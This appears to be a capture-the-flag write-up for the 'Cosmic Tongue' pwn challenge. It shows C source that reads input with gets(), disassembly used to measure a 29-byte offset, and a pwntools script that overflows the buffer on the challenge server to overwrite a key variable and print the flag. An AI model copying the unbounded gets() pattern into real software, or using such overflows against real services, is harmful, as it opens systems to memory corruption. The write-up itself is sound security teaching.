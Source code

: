 # Cosmic Tongue
### Description: Waiter, waiter! cast a meteor on this person NOW!

We are given a chall.zip file, inside is a ```release``` folder containing chall (binary), and chall.c (source).

chall.c:
```
 #include <stdio.h>
#include <string.h>

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    char key[11] = "srynottday";
    char message[20];

    printf("Interstellar bounty hunters have scorched all but this land. And they are marching from the horizon.\n");
    printf("Countless warlocks have fought, yet none prevails against Captain Necron.\n");
    printf("All hope now rests upon thy lips, for thou art the Supernova Sorcerer, whose words alone can tear open the very fabric of this reality!\n");
    printf("Cast thy incantation, mighty one: ");
    fflush(stdout);

    gets(message);
    if (strcmp(message, "opensesame") == 0)
    {
        printf("With a thunderous groan, a secret passage of ancient make hath conjured before thou!\n");
        printf("A portal of golden light opens, beckoning the citizens to flee Captain Necron and his void-born scourges.\n");
        printf("Inside, thou hath found a parchment from the legendary King Midas:\n");
        printf("\"The golden treasure you're looking for is deep inside this land's mantle. Unearth it, and you shall receive victory.\"\n");
    }
    else if (strcmp(key, "opensesame") == 0)
    {
        printf("By your word, the very bedrock doth tremble! Thou hast ripped a fissure in this plane of existence!\n");
        printf("The land opens its mouth and swallows each and every hunters but one.\n");
        printf("For Captain Necron, a special fate: the earth itself doth erupt in a geyser of molten power, a tomb prepared for his very soul.\n");
        printf("The infernal geyser spits out remnants of him, with mystic inscriptions written upon its charred bones:\n");
        FILE *file = fopen("flag.txt", "r");
        if (file == NULL)
        {
            printf("Error opening flag.txt\n");
            return;
        }
        char flag[100];
        fgets(flag, sizeof(flag), file);
        printf("%s\n", flag);
        fclose(file);
    }
    else
    {
        printf("Thy mouth of wisdom hath spoken words of cosmic import: %s\n", message);
        printf("Verily, a phrase of such sorcery hath never been uttered!\n");
        printf("Dreaded Captain Necron flees from the scene.. biding his time until thy final hour to return and lay waste to this land!\n");
    }

    return 0;
}
```

Now we can run objdump -d chall to get some dissasemblies:
```
objdump -d chall
```

If we carefully read the source code, we can see:
```
char key[11] = "srynottday";  // 11 bytes at higher memory address
char message[20];             // 20 bytes at lower memory address

gets(message); 
```

The challenge's vulnerability is the use of gets(), which reads input without bounds checking. This allows writing past the 20-byte message buffer.

Looking at the disassembly around 0x1294-0x12a8:
```
1294:	48 b8 73 72 79 6e 6f 	movabs $0x6474746f6e797273,%rax  ; "srynottd"
129b:	74 74 64 
129e:	48 89 45 ed          	mov    %rax,-0x13(%rbp)          ; key at rbp-0x13
12a2:	66 c7 45 f5 61 79    	movw   $0x7961,-0xb(%rbp)        ; "ay" at rbp-0xb  
12a8:	c6 45 f7 00          	movb   $0x0,-0x9(%rbp)           ; null terminator
```

And the gets() call at 0x12fc-0x1308:
```
12fc:	48 8d 45 d0          	lea    -0x30(%rbp),%rax          ; message at rbp-0x30
1300:	48 89 c7             	mov    %rax,%rdi
1303:	b8 00 00 00 00       	mov    $0x0,%eax
1308:	e8 13 fe ff ff       	call   1120 <gets@plt>
```

message: starts at rbp-0x30 (48 bytes from rbp),
key: starts at rbp-0x13 (19 bytes from rbp),
Distance: `0x30 - 0x13 = 0x1D = 29 bytes.

The program has two string comparisons:

```strcmp(message, "opensesame")``` - Opens a "secret passage" but no flag
```strcmp(key, "opensesame")``` - Opens the flag file and prints it

Initially, key contains "srynottday", so the second comparison fails. But with buffer overflow, we can overwrite key.

Based on the gathered information and observations so far, we can now draft a solver, included within the address for the server the chall is hosted on, so we can just grab a flag and submit:

```
#!/usr/bin/env python3
from pwn import *

HOST = "intersec.hcs-team.com"
PORT = 10379

payload = b"A"*29 + b"opensesame\n"

io = remote(HOST, PORT)
# read initial banner if any
print(io.recvuntil(b"Cast thy incantation, mighty one: ", timeout=2).decode(errors='ignore'))
io.send(payload)
# receive rest (flag)
resp = io.recvall(timeout=2)  # or use recvuntil if you know trailing text
print(resp.decode(errors='ignore'))
io.close()
```

Running the solver gives us the flag:

![alt text](image.png)

Flag: ```HCS{y0ur_w15hhh_15_my_c0mm4nd_51r3_18e4dfe5-7b65-42f7-89a0-10c066b0b448}```

